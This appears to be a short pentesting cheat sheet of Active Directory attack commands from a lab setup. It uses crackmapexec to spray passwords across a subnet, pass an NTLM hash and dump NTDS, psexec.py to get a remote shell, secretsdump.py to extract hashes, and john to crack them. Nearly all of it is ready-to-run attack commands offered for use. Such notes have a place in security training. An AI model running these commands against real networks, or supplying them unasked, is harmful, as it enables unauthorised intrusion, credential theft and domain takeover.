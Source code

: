 # crackmapexec

Use crackmapexec to pass the password around the network and see what other machines include this account

```bash
example: crackmapexec smb 192.168.16.0/24 -u fcastle -d MARVEL.local -p Password1
Usage: crackmapexec smb [ ip/CIDR] -u [username] -d [domain] -p [password]
```
### Pass the Hash
Once you get the hash from secrets dump you only want the second part of the hash after the colon
```bash
crackmapexec smb 192.168.16.0/24 -u "Frank Castle" -H 64f12cddaa88057e06a81b54e73b949b --local-auth
```

### Run this command once domain admin creds are discovered

```bash
crackmapexec smb 10.10.10.10/24 -u water -p password123 --ntds
#new users and their hashes will be discovered
```

# psexec
You can use this command to get a quick easy shell sometimes it works sometimes it doesn't

```bash
example: psexec.py marvel/fcastle:Password1@192.168.16.139
usage: psexec.py domain/username:password@[IP]
```

# secretsdump

Use this to dump hashes and maybe pass them around
```bash
example: secretsdump.py marvel/fcastle:Password1@192.168.16.129
usage: secretsdump.py domain/username:password@[IP]
```


cracking sam hashes
```bash
john hash.txt --format=NT --wordlist=/path/to/file
```
